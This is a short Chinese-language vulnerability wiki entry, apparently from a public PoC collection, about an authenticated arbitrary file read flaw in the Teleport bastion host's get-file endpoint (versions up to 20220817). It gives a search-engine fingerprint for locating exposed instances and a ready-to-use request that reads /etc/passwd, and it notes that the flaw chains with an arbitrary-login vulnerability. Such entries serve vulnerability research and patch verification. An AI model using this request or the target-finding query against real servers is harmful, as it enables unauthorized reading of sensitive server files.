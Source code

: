 # Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

Teleport Version <= 20220817

## 网络测绘

app="TELEPORT堡垒机"

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1660720653270-fcd22c8e-0df1-42ea-aa02-2c94e0770e76.png)

登录后使用POC验证

```php
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

![img](/assets/PeiQi-Wiki/img/1661232312843-695b528d-23f9-4b57-b925-182f79977734.png)